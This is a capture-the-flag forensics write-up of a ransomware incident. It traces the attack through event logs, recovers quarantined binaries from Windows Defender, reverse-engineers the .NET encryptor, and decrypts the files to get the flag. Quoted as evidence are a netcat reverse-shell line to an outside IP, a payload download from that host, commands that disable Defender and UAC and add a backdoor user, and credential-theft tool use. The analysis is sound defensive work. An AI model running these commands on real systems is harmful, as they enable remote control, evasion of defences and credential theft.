







# HTB Cyber Apocalypse 2024: Hacker Royale - Confinement

## Challenge

> "Our clan's network has been infected by a cunning ransomware attack, encrypting irreplaceable data essential for our relentless rivalry with other factions. With no backups to fall back on, we find ourselves at the mercy of unseen adversaries, our fate uncertain. Your expertise is the beacon of hope we desperately need to unlock these encrypted files and reclaim our destiny in The Fray.<br>
Note: The valuable data is stored under \Documents\Work"

## Metadata

- Difficulty: hard
- Creator: `bquanman`
- Files: `Confinement.ad1` (200 MB, not uploaded)
- Docker: no
- Tags: `access data`, `file system`, `ntfs`, `powershell logs`, `microsoft defender`, `quarantine`, `.net`, `ransomware`
- Points: `325`
- Number of solvers: 

## Solution

### Initial analysis

The received `Confinement.ad1` image is a Access Data format image, which is basically a logical file system copy (no other disk information is collected, just the files).

We can open the file with `FTK Imager` and also export the complete file system to a folder, which will be necessary later.

If we navigate to folder specified by the description: `\Users\tommyxiaomi\Documents\repor` folder, we can see some `*.korp` files and an `ULTIMATUM.hta` file.





The systems is encrypted with a ransomware, that is clear, but if we look around, there are no suspisious binaries. However, in the `Downloads` folder, there is an interesting `ats_setup.bat` file.



```batch
nc 13.53.200.146 4953 -e powershell
```

This command connects to a remote server and execute everything it gets from the server using PowerShell. Note the timestamp of the file modification, it is around `3/5/2024 12:40 PM`.

### Event Log

Now we should definitely check out the PowerShell events in the `\Windows\System32\winevt\Logs` folder.

We can do an analysis with `chainsaw hunt` ([`chainsaw.csv`](files/chainsaw.csv)).


It identifies multiple suspicious PowerShell executions and additionally 4 files are Quarantined by Defender too.

```
C:\Users\tommyxiaomi\Documents\browser-pw-decrypt.exe
C:\Users\tommyxiaomi\Documents\mimikatz.exe
C:\Users\tommyxiaomi\Documents\fscan64.exe
C:\Users\tommyxiaomi\Documents\intel.exe
```

We can carve out the interesting events from the PowerShell Operation event log with `evtx_dump` ([`powershell.txt`](files/powershell.txt)).

```bash
$ fd -e .evtx PowerShell.*Operational.evtx -x evtx_dump -o jsonl | jq .Event.EventData.ScriptBlockText
```

The relevans PowerShell commands are the following:

```powershell
whoami
systeminfo
net user /domain
net user
net user Guess password /ADD
Set-LocalUser -Name Guess -PasswordNeverExpires $true
pwd
ipconfig
cd C:\\User
cd C:\\Users
dir
cd tommyxiaomi
cd Documents
dir
Invoke-WebRequest -URI "http://13.53.200.146/intel.zip" -OutFile "./intel.zip"
&"C:\Program Files\7-Zip\7z.exe" x -p hoilamgi intel.zip
&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
./mimikatz.exe
./fscan64.exe
& "./intel.exe"
Get-MpComputerStatus | select IsTamperProtected
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpComputerStatus | Select-Object -Property Antivirusenabled,AMServiceEnabled,AntispywareEnabled,BehaviorMonitorEnabled,IoavProtectionEnabled,NISEnabled,OnAccessProtectionEnabled,RealTimeProtectionEnabled,IsTamperProtected,AntivirusSignatureLastUpdated
Dism /online /Disable-Feature /FeatureName:Windows-Defender /Remove /NoRestart /quiet
New-ItemProperty -Path ΓÇ£HKLM:\SOFTWARE\Policies\Microsoft\Windows DefenderΓÇ¥ -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
Set-MpPreference -DisableRemovableDriveScanning $true
Set-MpPreference -DisableArchiveScanning $True
Get-MpPreference|select DisableArchiveScanning
Get-MpComputerStatus | Select RealTimeProtectionEnabled, IoavProtectionEnabled,AntispywareEnabled | FL
cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MPPreference -DisableBehaviourMonitoring $true
Set-MPPreference -DisableBehaviourMonitoring $true
Add-MpPreference -ExclusionPath 'C:\Users\tommyxiaomi\Documents' -ExclusionExtension '.exe' -Force
Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Users\tommyxiaomi\Documents"
&"C:\Program Files\7-Zip\7z.exe" x -phoilamgi intel.zip
./browser-pw-decrypt.exe
./browser-pw-decrypt.exe all
& "./intel.exe"
rm ./*.exe -force
rm intel.zip -force
exit
```

It seems that during the first try, Defender quarantined all 4 files. Then the attacker disabled Defender and tried again. We should be interested in the `intel.exe` files as the others are known tools. The problem is that all files are deleted from the file system.

### Recovering the files

We can recover files from the Defender Quarantine folder (`/ProgramData/Microsoft/Windows Defender/Quarantine`)

```
$ fd quarantine -x tree
./[root]/ProgramData/Microsoft/Windows Defender/Quarantine
├── Entries
│   ├── $I30
│   ├── {8003AF0C-0000-0000-D162-C11DF3819B65}
│   ├── {8003B223-0000-0000-C754-59428C7C36F2}
│   ├── {8003D7D1-0000-0000-E939-A24A40D20783}
│   └── {8006434D-0000-0000-646C-5C2DF178E2DE}
├── ResourceData
│   ├── $I30
│   ├── 49
│   │   └── 49D2DBE7E1E75C6957E7DD2D4E00EF37E77C0FCE
│   ├── 6A
│   │   └── 6A5D1A3567B13E1C3F511958771FBEB9841372D1
│   ├── AE
│   │   └── AEB49B27BE00FB9EFCD633731DBF241AC94438B7
│   └── B2
│       └── B23626565BF4CD28999377F1AFD351BE976443A2
└── Resources
    ├── 49
    │   └── 49D2DBE7E1E75C6957E7DD2D4E00EF37E77C0FCE
    ├── 6A
    │   └── 6A5D1A3567B13E1C3F511958771FBEB9841372D1
    ├── AE
    │   └── AEB49B27BE00FB9EFCD633731DBF241AC94438B7
    └── B2
        └── B23626565BF4CD28999377F1AFD351BE976443A2
```

Defender uses RC4 encryption and a custom file format to store the quarantined files, luckily I've found a research on this topic:
- <https://research.nccgroup.com/2023/12/14/reverse-reveal-recover-windows-defender-quarantine-forensics/>

There is a `dissect.target` `target-query` plugin the recover the files
- <https://github.com/fox-it/dissect.target>


All we have to do for the plugin to work is to remove the random `$I30` files which were created by FTK Imager during the export.

```
$ target-query root/ -q -f defender.quarantine
<filesystem/windows/defender/quarantine/file hostname='DESKTOP-A1L0P1U' domain=None ts=2024-03-05 12:42:54.139046+00:00 quarantine_id=b'MC\x06\x80\x00\x00\x00\x00dl\\-\xf1x\xe2\xde' scan_id=b',M\xc3\x9f1\x1b\xa7N\xa8Y=\xed~y\xe8\x92' threat_id=2147894093 detection_type='file' detection_name='HackTool:Win32/Mimikatz!pz' detection_path='C:\\Users\\tommyxiaomi\\Documents\\mimikatz.exe' creation_time=2024-01-30 09:11:31.041660+00:00 last_write_time=2024-02-28 09:09:51.999048+00:00 last_accessed_time=2024-03-05 12:42:53.953203+00:00 resource_id='6A5D1A3567B13E1C3F511958771FBEB9841372D1'>
<filesystem/windows/defender/quarantine/file hostname='DESKTOP-A1L0P1U' domain=None ts=2024-03-05 12:42:54.139046+00:00 quarantine_id=b'#\xb2\x03\x80\x00\x00\x00\x00\xc7TYB\x8c|6\xf2' scan_id=b',M\xc3\x9f1\x1b\xa7N\xa8Y=\xed~y\xe8\x92' threat_id=2147725859 detection_type='file' detection_name='Trojan:Win32/CryptInject' detection_path='C:\\Users\\tommyxiaomi\\Documents\\fscan64.exe' creation_time=2024-01-29 04:03:58.188118+00:00 last_write_time=2023-09-26 06:35:07.578857+00:00 last_accessed_time=2024-03-05 12:42:54.134056+00:00 resource_id='B23626565BF4CD28999377F1AFD351BE976443A2'>
<filesystem/windows/defender/quarantine/file hostname='DESKTOP-A1L0P1U' domain=None ts=2024-03-05 12:44:38.725887+00:00 quarantine_id=b'\xd1\xd7\x03\x80\x00\x00\x00\x00\xe99\xa2J@\xd2\x07\x83' scan_id=b'\xd8{\x83z\xb1LGD\x91\x8f\xa0u\xe5\x1d\x02I' threat_id=2147735505 detection_type='file' detection_name='Trojan:Win32/Wacatac.B!ml' detection_path='C:\\Users\\tommyxiaomi\\Documents\\intel.exe' creation_time=2024-02-28 09:19:05.440125+00:00 last_write_time=2024-02-28 03:18:03.085245+00:00 last_accessed_time=2024-03-05 12:44:38.719831+00:00 resource_id='AEB49B27BE00FB9EFCD633731DBF241AC94438B7'>
<filesystem/windows/defender/quarantine/file hostname='DESKTOP-A1L0P1U' domain=None ts=2024-03-05 12:42:39.474344+00:00 quarantine_id=b'\x0c\xaf\x03\x80\x00\x00\x00\x00\xd1b\xc1\x1d\xf3\x81\x9be' scan_id=b')8E-\xc7\xb1\xd7J\xa5\x8a\x18<eg\xf5M' threat_id=2147725068 detection_type='file' detection_name='HackTool:Win32/LaZagne' detection_path='C:\\Users\\tommyxiaomi\\Documents\\browser-pw-decrypt.exe' creation_time=2024-02-28 04:16:31.646524+00:00 last_write_time=2024-02-28 04:43:27.860504+00:00 last_accessed_time=2024-03-05 12:42:39.463427+00:00 resource_id='49D2DBE7E1E75C6957E7DD2D4E00EF37E77C0FCE'>

$ target-query root/ -q -f defender.recover -o /tmp -v

$ file /tmp/*
/tmp/6A5D1A3567B13E1C3F511958771FBEB9841372D1:                     PE32+ executable (console) x86-64, for MS Windows, 6 sections
/tmp/6A5D1A3567B13E1C3F511958771FBEB9841372D1.security_descriptor: data
/tmp/49D2DBE7E1E75C6957E7DD2D4E00EF37E77C0FCE:                     PE32+ executable (console) x86-64, for MS Windows, 7 sections
/tmp/49D2DBE7E1E75C6957E7DD2D4E00EF37E77C0FCE.security_descriptor: data
/tmp/AEB49B27BE00FB9EFCD633731DBF241AC94438B7:                     PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
/tmp/AEB49B27BE00FB9EFCD633731DBF241AC94438B7.security_descriptor: data
/tmp/B23626565BF4CD28999377F1AFD351BE976443A2:                     PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows, 3 sections
/tmp/B23626565BF4CD28999377F1AFD351BE976443A2.security_descriptor: data
```

One of the binaries (which is `intel.exe`) is a `.Net assembly`.

### Reverse engineering

We can start the reverse engineering process by loading the binary in `ILSpy`. The relevant code sections are the following:

```csharp
internal class Program
{
    [...]
	private static void Main(string[] args)
	{
		Utility utility = new Utility();
		PasswordHasher passwordHasher = new PasswordHasher();
		if (Dns.GetHostName().Equals("DESKTOP-A1L0P1U", StringComparison.OrdinalIgnoreCase))
		{
			UID = utility.GenerateUserID();
			utility.Write("\nUserID = " + UID, ConsoleColor.Cyan);
			Alert alert = new Alert(UID, email1, email2);
			email = string.Concat(new string[4] { email1, " And ", email2, " (send both)" });
			coreEncrypter = new CoreEncrypter(passwordHasher.GetHashCode(UID, salt), alert.ValidateAlert(), alertName, email);
			utility.Write("\nStart ...", ConsoleColor.Red);
			Enc(Environment.CurrentDirectory);
			Console.ReadKey();
		}
	}
    [...]
	static Program()
	{
		email1 = "fraycrypter@korp.com";
		email2 = "fraydecryptsp@korp.com";
		alertName = "ULTIMATUM";
		salt = "0f5264038205edfb1ac05fbb0e8c5e94";
		softwareName = "Encrypter";
		coreEncrypter = null;
		UID = null;
	}
}

internal class PasswordHasher
{
	[...]
	public string Hasher(string password)
	{
		using SHA512CryptoServiceProvider sHA512CryptoServiceProvider = new SHA512CryptoServiceProvider();
		byte[] bytes = Encoding.UTF8.GetBytes(password);
		return Convert.ToBase64String(sHA512CryptoServiceProvider.ComputeHash(bytes));
    }
    [...]
}

public class CoreEncrypter
{
    [...]
	public void EncryptFile(string file)
	{
		byte[] array = new byte[65535];
		byte[] salt = new byte[8] { 0, 1, 1, 0, 1, 1, 0, 0 };
		Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(password, salt, 4953);
		RijndaelManaged rijndaelManaged = new RijndaelManaged();
		rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
		rijndaelManaged.Mode = CipherMode.CBC;
		rijndaelManaged.Padding = PaddingMode.ISO10126;
		rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
		FileStream fileStream = null;
        [...]
    }
    [...]
}
```







- The program uses AES-CBC to encrypt the files
    - keysize = `256`
    - blocksize = `128`
- The key and IV are generated using PBKDF2
    - a password
    - salt = `0b0001010001010000`
    - iteration = `4953`
- The password is generated from a `UID` which is random, but for our case can be found in the `ULTIMATUM.hta` file
    - UID = `5K7X7E6X7V2D6F`
- And using a hardcoded salt
    - salt = `0f5264038205edfb1ac05fbb0e8c5e94`
- The password used to initialize PBKDF2 is
    - `base64(sha512(uid+salt))` = `A/b2e5CdOYWbfxqJxQ/Y4Xl4yj5gYqDoN0JQBIWAq5tCRPLlprP2GC87OXq92v1KhCIBTMLMKcfCuWo+kJdnPA==`
- Using these information, we can derive the AES key and IV
    - key = `16edb3aca07e08f1ec7d95877a362ecfdeaa1a336ce719f0d16ea4f8aee61930`
    - iv = `e09d4da3162dc5209bef781c27aca70e`

### Decryption

The following Python file ([`solve.py](files/solve.py)) decrypts the encrypted [`Applicants_info.xlsx.korp`](files/Applicants_info.xlsx.korp) XLSX file.

```python
from Crypto.Cipher import AES

def decrypt(key, iv, enc):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    return cipher.decrypt(enc)

def _unpad(s):
    return s[:-ord(s[len(s)-1:])]

key = bytes.fromhex("16edb3aca07e08f1ec7d95877a362ecfdeaa1a336ce719f0d16ea4f8aee61930")
iv = bytes.fromhex("e09d4da3162dc5209bef781c27aca70e")
encrypted = open('Applicants_info.xlsx.korp', 'rb').read()

decrypted = decrypt(key, iv, encrypted)
open('Applicants_info.xlsx', 'wb').write(decrypted)
```

The flag is in the decrypted [`Applicants_info.xlsx`](files/Applicants_info.xlsx) file.



Flag: `HTB{2_f34r_1s_4_ch01ce_322720914448bf9831435690c5835634}`